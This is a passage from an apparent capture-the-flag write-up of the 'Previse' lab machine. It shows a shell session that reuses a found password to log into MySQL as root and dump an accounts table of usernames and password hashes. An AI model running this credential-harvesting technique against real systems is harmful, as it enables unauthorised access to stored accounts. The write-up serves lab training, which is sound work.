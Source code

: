 - We have password `mySQL_p@ssw0rd!:)` which did not work for any user in the box. Let's try to connect to the MySQL Database.

```bash
www-data@previse:/var/www/html$ mysql -h localhost -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 17
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use previse
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> SHOW TABLES;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.01 sec)

mysql> SELECT * FROM accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | alien0ne | $1$🧂llol$itD.UEzVGhnFQaUHJ0f8i0 | 2022-01-14 13:57:48 |
+----+----------+------------------------------------+---------------------+
2 rows in set (0.00 sec)

mysql>
```
